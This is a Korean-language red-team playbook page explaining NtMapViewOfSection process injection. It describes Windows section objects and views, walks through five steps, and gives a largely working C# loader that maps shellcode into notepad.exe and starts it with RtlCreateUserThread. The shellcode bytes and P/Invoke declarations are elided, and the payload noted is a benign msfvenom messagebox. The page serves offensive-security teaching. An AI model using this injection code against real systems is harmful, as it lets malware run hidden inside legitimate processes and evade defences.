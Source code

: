 # NtMapViewOfSection

NtMapViewOfSection 프로세스 인젝션은 윈도우의 섹션 오브젝트 (Section Object) 와 뷰 (View) 를 이용해 원격 프로세스에서 쉘코드를 실행하는 기법이다.&#x20;

* 섹션 오브젝트 (Section Object) - 프로세스 간 공유될 수 있는 메모리의 특정 부분. &#x20;
* 뷰 (View) - 섹션에서 실제로 접근 가능한 메모리 부분. 섹션 오브젝트의 뷰를 생성하는 것을 "맵핑" (Mapping) 이라고도 부른다. 섹션 오브젝트 중에서 특정 프로세스 2개 간 접근 가능한 부분을 뷰라고도 부른다. 프로세스는 1개, 혹은 여러개의 섹션에 1개, 혹은 여러개의 뷰를 갖을 수 있다.&#x20;

![](../../.gitbook/assets/NtMapViewOfSection.drawio.png)

### 실행 단계&#x20;

1. NtCreateSection - 현재 프로세스에 공유될 수 있는 메모리 섹션을 생성한다.&#x20;
2. NtMapViewOfSection - 메모리 섹션에 접근 가능한 뷰를 생성한다.&#x20;
3. Marshal.Copy - 생성된 메모리에 쉘코드를 쓴다.&#x20;
4. NtMapViewOfSection - 원격 프로세스에 현재 프로세스의 섹션에 접근 가능한 뷰를 생성한다. 이때, #2번과 똑같은 메모리 부분을 접근하는 것이기 때문에 해당 메모리 섹션에는 이미 쉘코드가 쓰여져 있는 상태다.&#x20;
5. RtlCreateUserThread - 원격 프로세스에 쓰레드를 생성한 뒤 실행시킨다. 이 쓰레드는 뷰가 가르키고 섹션 안의 쉘코드를 실행시킨다.&#x20;

### 코드&#x20;

<details>

<summary>MappingInjection.cs</summary>

```csharp
namespace MappingInjection
{
    class Program
    {
        static void Main(string[] args)
        {
            // msfvenom -p windows/x64/messagebox text="stage0 shellcode" title="choi redteam playbook" -f csharp
            byte[] buf = new byte[306] {
                < ... >  };

            var process = Process.Start(@"C:\windows\system32\notepad.exe");
            var pid = process.Id;
            uint bufLength = (uint)buf.Length;

            uint SEC_COMMIT = 0x8000000;
            uint SECTION_ALL_ACCESS = (0x0002 | 0x0004 | 0x0008);

            IntPtr hSection = IntPtr.Zero;
            IntPtr pLocalView = IntPtr.Zero;
            IntPtr pRemoteView = IntPtr.Zero;
            IntPtr cid = IntPtr.Zero;

            // 1. Create section in current process 
            UInt32 rCreateSection = NtCreateSection(
                ref hSection, 
                SECTION_ALL_ACCESS,
                IntPtr.Zero,
                ref bufLength,
                (uint)MemoryProtection.ExecuteReadWrite,
                SEC_COMMIT,
                IntPtr.Zero
                );

            // 2. Create view to access the section created above.
            uint rMVOS = NtMapViewOfSection(
                hSection,
                GetCurrentProcess(),
                ref pLocalView,
                IntPtr.Zero,    
                IntPtr.Zero,
                out ulong sectionOffset,
                out bufLength,
                2,          // ViewUnmap = 2 
                0,
                (uint)MemoryProtection.ReadWrite
                );

            // 3. Copy shellcode to the local view 
            Marshal.Copy(buf, 0, pLocalView, buf.Length);

            // Notepad's Process Handle 
            IntPtr hProc = OpenProcess((uint)ProcessAccessFlags.All, false, pid);

            // 4. Create view to remote process. 
            uint rNMVOS = NtMapViewOfSection(
                hSection,
                hProc,
                ref pRemoteView,
                IntPtr.Zero,
                IntPtr.Zero,
                out ulong rSectionOffset,
                out bufLength,
                2,
                0,
                (uint)MemoryProtection.ExecuteRead
                );

            // 5. Start thread on the remote view to trigger the shellcode 
            IntPtr hThread = IntPtr.Zero;
            IntPtr pThread = RtlCreateUserThread(hProc, IntPtr.Zero, false, 0, IntPtr.Zero, IntPtr.Zero, pRemoteView, IntPtr.Zero, ref hThread, IntPtr.Zero);

            Console.WriteLine("[+] Local View address in MappingInejction.exe = 0x{0}", pLocalView.ToInt64().ToString("x2"));
            Console.WriteLine("[+] Remote View address in Notepad.exe = 0x{0}", pRemoteView.ToInt64().ToString("x2"));

        }
 
// PInvoke things...  
< ... >
```

</details>



### WinAPI&#x20;

TODO&#x20;

#### [NtMapViewOfSection](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtMapViewOfSection.html)&#x20;

```
NtMapViewOfSection(
  IN HANDLE               SectionHandle,
  IN HANDLE               ProcessHandle,
  IN OUT PVOID            *BaseAddress OPTIONAL,
  IN ULONG                ZeroBits OPTIONAL,
  IN ULONG                CommitSize,
  IN OUT PLARGE_INTEGER   SectionOffset OPTIONAL,
  IN OUT PULONG           ViewSize,
  IN                      InheritDisposition,
  IN ULONG                AllocationType OPTIONAL,
  IN ULONG                Protect 
);
```

#### 파라미터&#x20;

* SectionHandle - 섹션을 가르키는 핸들 &#x20;
* ProcessHandle - 프로세스를 가르키는 핸들. 로컬/원격이 될 수 있다.&#x20;
* BaseAddress - 뷰를 맵핑할 섹션의 메모리 주소&#x20;
* ZeroBits - BaseAddress의 High bit가 얼마만큼 0으로 설정되어야 하는지. 대부분 0이거나 `IntPtr.Zero` 다.&#x20;
* CommitSize - 처음 커밋된 메모리 크기 (바이트). 대부분 0이거나 `IntPtr.Zero` 다.&#x20;
* SectionOffset  - 섹션의 맵핑이 시작될 메모리를 가르키는 포인터. 대부분 `out ulong whatever` 로 포인터를 만들어 지정되도록 한다.&#x20;
* ViewSize - 뷰의 크기 - 대부분 쉘코드의 크기다. `out <쉘코드-크기-변수>` 로 지정한다.&#x20;
* InheritDisposition - [Section Inherit](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FSECTION\_INHERIT.html) . 대부분 ViewUnmap (2) 로 설정해 뷰가 자식 프로세스에게 상속되지 않도록 한다.&#x20;
* AllocationType - 메모리 페이지 할당 타입. 대부분 0이나 Null 로 설정한다.&#x20;
* Protect - 메모리 프로텍트 타입 - 로컬/원격 뷰에 따라 RW, RX 로 설정한다.&#x20;



### 레퍼런스&#x20;

{% embed url="https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views" %}

